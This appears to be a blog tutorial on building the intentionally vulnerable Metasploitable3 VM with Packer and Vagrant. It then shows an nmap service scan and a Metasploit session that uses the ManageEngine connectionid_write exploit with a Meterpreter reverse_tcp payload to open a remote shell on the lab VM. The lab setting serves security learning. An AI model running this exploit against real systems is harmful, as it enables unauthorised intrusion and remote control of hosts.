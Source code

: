 ```yaml
---
title: "Build a Metasploit Test Bench with Metasploitable3 & Vagrant"
excerpt: "How to install Metasploitable3 with Vagrant on macOS."
tags:
  - metasploit
  - metasploitable
  - exploit
  - vagrant
---
```


---
Metasploitable3 is a virtual machine that is built from the ground up with a large amount of security vulnerabilities. It is intended to be used as a target for testing exploits with metasploit.

It succeed to [Metasploitable2](https://community.rapid7.com/docs/DOC-1875), a pre-built ISO image also containing security vulnerabilities. The new version is fully built on Packer and Vagrant allowing you to customize it, especially by introducing different difficulty levels. Since the system is built on-demand, it allow someone to set a variable before the build and the resulting VM will have different services more open or locked down depending on what is selected.

## Install the Build Environment

To prepare the environment you need to install the following dependencies:

* [Homebrew](http://brew.sh)
* [Packer](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
* [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* Internet connection

**Note:** At the time of writing, the last release of VirtualBox (5.1.8) is breaking the provisioning process. You should use VirtualBox 5.1.6 or the last testing version. For more information, check this issue on GitHub: [https://github.com/rapid7/metasploitable3/issues/41](https://github.com/rapid7/metasploitable3/issues/41).
{: .notice--warning}

**Update:** It seems that the previous issues was fixed in VirtualBox (5.1.12).
{: .notice--info}

As I am running a macOS system, I used Brew to install the dependencies.

```bash
# Install Packer
$ brew install packer

# Install Vagrant
$ brew install vagrant

# Install Vagrant Reload Plugin
$ vagrant plugin install vagrant-reload
```


Then clone the [Metasploitable3](https://github.com/rapid7/metasploitable3) repository from GitHub.

```bash
$ git clone https://github.com/rapid7/metasploitable3.git
$ cd metasploitable3
```

## Build the Base VM Image

Once your environment is setup, build the base VM image by running Packer. This will take a while the first time you run it since it has to download the OS installation ISO.

```bash
$ packer build windows_2008_r2.json

virtualbox-iso output will be in this color.

==> virtualbox-iso: Downloading or copying Guest additions
    virtualbox-iso: Downloading or copying: file:///Applications/VirtualBox.app/Contents/MacOS/VBoxGuestAdditions.iso
==> virtualbox-iso: Downloading or copying ISO
    virtualbox-iso: Downloading or copying: http://download.microsoft.com/download/7/5/E/75EC4E54-5B02-42D6-8879-D8D3A25FBEF7/7601.17514.101119-1850_x64fre_server_eval_en-us-GRMSXEVAL_EN_DVD.iso
    virtualbox-iso: Download progress: 1%
    virtualbox-iso: Download progress: 3%
    virtualbox-iso: Download progress: 5%

[...]

==> virtualbox-iso: Unregistering and deleting virtual machine...
==> virtualbox-iso: Running post-processor: vagrant
==> virtualbox-iso (vagrant): Creating Vagrant box for 'virtualbox' provider
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854-disk1.vmdk
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854.ovf
    virtualbox-iso (vagrant): Renaming the OVF to box.ovf...
    virtualbox-iso (vagrant): Using custom Vagrantfile: vagrantfile-windows_2008_r2.template
    virtualbox-iso (vagrant): Compressing: Vagrantfile
    virtualbox-iso (vagrant): Compressing: box.ovf
    virtualbox-iso (vagrant): Compressing: metadata.json
    virtualbox-iso (vagrant): Compressing: packer-virtualbox-iso-1478461854-disk1.vmdk
Build 'virtualbox-iso' finished.
```

## Provisioning with Vagrant

After the base Vagrant box is created you need to add it to your Vagrant environment.

```bash
$ vagrant box add windows_2008_r2_virtualbox.box --name=metasploitable3
==> box: Box file was not detected as metadata. Adding it directly...
==> box: Adding box 'metasploitable3' (v0) for provider: 
    box: Unpacking necessary files from: file:///Users/ax/Downloads/metasploitable3/windows_2008_r2_virtualbox.box
==> box: Successfully added box 'metasploitable3' (v0) for 'virtualbox'!
```

Then, to start the provisioning process, run the command `vagrant up`. This will start up the VM and run all of the installation and configuration scripts necessary to set everything up. This takes about 20 minutes.

```bash
$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Importing base box 'metasploitable3'...
==> default: Matching MAC address for NAT networking...
==> default: Setting the name of the VM: metasploitable3_default_1478815443621_32649
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...
    default: Adapter 1: nat
    default: Adapter 2: hostonly
==> default: Forwarding ports...
    default: 3389 (guest) => 3389 (host) (adapter 1)
    default: 22 (guest) => 2222 (host) (adapter 1)
    default: 5985 (guest) => 55985 (host) (adapter 1)
    default: 5986 (guest) => 55986 (host) (adapter 1)

[...]

```

If the provisioning went well, the Metasploitable3 is ready to be used.

## Check the Virtual Machine

To start exploiting the various services, I suggest you to check the open port on the virtual machine by using **Nmap**.

```bash
$ nmap -sV -p- 172.28.128.3

Starting Nmap 7.30 ( https://nmap.org )
Nmap scan report for 172.28.128.3
Host is up (0.0030s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8020/tcp  open  http          Apache httpd
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8027/tcp  open  unknown
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8383/tcp  open  ssl/http      Apache httpd
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Inertia; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49263/tcp open  unknown
49264/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 257.28 seconds
```

As you can see, there are many services running on the VM. Let's try to get a root shell by exploiting one of them.

## Quick Exploit with Metasploit

I choose to exploit the ManageEngine server of the virtual machine by using the **exploit/windows/http/manageengine_connectionid_write** exploit module from Metasploit.

```bash
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > show options 

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      8020             yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows


msf exploit(manageengine_connectionid_write) > set RHOST 172.28.128.3
RHOST => 172.28.128.3
msf exploit(manageengine_connectionid_write) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(manageengine_connectionid_write) > set LHOST 172.28.128.4
LHOST => 172.28.128.4

msf exploit(manageengine_connectionid_write) > exploit 

[*] Started reverse TCP handler on 172.28.128.4:4444 
[*] Creating JSP stager
[*] Uploading JSP stager WJsoA.jsp...
[*] Executing stager...
[*] Sending stage (957999 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.4:4444 -> 172.28.128.3:49522)
[+] Deleted ../webapps/DesktopCentral/jspf/WJsoA.jsp

meterpreter > getuid 
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > 
```

Yay ! We got a remote Meterpreter shell. Now it's your turn, have fun !


## Resources

* [Official Metasploitable3 Repository](https://github.com/rapid7/metasploitable3)
* [Metasploitable3 Wiki](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
* [VirtualBox (Old Builds)](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* [Packer.io](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
